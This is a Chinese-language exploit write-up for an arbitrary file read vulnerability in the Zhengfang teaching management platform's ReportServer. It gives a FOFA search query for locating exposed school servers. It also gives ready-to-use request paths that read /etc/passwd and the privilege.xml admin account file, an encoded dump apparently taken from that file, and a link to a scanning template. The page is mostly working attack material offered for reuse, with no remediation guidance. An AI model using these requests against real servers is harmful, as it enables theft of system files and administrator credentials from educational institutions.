

# 一、漏洞简介
正方教学管理信息服务平台以培养、运行、保障、监控为主线，实现教务工作事务性管理和战略性管理的相互叠加，满足学校培养过程管理、教学质量检查、教学工作评价、教学业绩评价、教学改革发展等战略性需求。正方教学管理信息服务平台ReportServer存在任意文件读取漏洞，攻击者可通过该漏洞获取服务器上敏感文件内容。

# 二、影响版本
+ 正方教学管理信息服务平台

# 三、资产测绘
+ fofa`body="正方软件股份有限公司" && title="教学管理信息服务平台"`
+ 特征


# 四、漏洞复现
```java
/WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true
```



读取管理后台账号配置

```java
/WebReport/ReportServer?op=resource&resource=privilege.xml&i18n=true
```

z


```java
___002f007100720062000800f5005d00720061003d00630060000a00e800090026003d007e0028002f000100bb004800780077002700640068005900f7007e0043005500630032002d005b00eb0021002b0043003c00630079000d00b9004e007000760003006b0061000500b2004e00650033003600670063003200b000590064007a002100640032004600e7001b00260027007f0038003d005600f7000b006500760022006f006e001700b0007d00720061003d00630060000a00e80009002f003d007e0024003f004600f5004d0064004000370079007b000100b800660076007d002f006d006a00160085004a00640060001d006f007b005900f7005f00650066002b0028002f000900b400470072002e006c006c006e000800a6004e0035002d00440036007d000b00ba005f005a00720020006b0068000100a700650076007e002b00340005005800f4007000540057000f005e004e003f00b4004f007a007a002000570052005a00e900040065007c0021007e0042000500bb004a00700076003c0044006e000900b00015001d002f003c0065006000100098004a007900720029006f007d003400b400580064006400210078006b005a00df001700360048000d004e004e0030009400700048004c0011003a003f005200ec001b002700210076003a003f005300ec001b00270025007e003a003f005400e7001b00270072007f003a003f005500b4001b00270021007b003a003f005600e50076004a002d00720025007d000b00ba005f005a00720020006b0068000100a7007b00760060003d007d0060001600b10015001d002f000f005a002f000700b9004a0064006000730028006c000b00b80005007100610060007a007d000d00a30042007b00760029006f0021001400a700440061007a002a006f007d001700fb006500780052003b007e0067000100bb005f007e0070002f007e0066000b00bb007b0065007c00380063006b000100a700090038002d004400360049000b00a7005c00760061002a005f007d000800eb0021002b003200150049004b00250081006a004c003700350079006a001600a3004700720067001b00580043001900ea00440067002e002800780050001400b9004a00630075002100780062003900880015002b003c00080065007d001300b4005900730046003c00660031006e00e90004004700610027007c0066000800b0004c0072005e002f0064006e000300b0005900290019
```

[zfjxgl-reportserver-anyfileread.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/29512878/1729561112403-db5faed0-9567-4f04-8da5-a483cd8e5885.yaml)

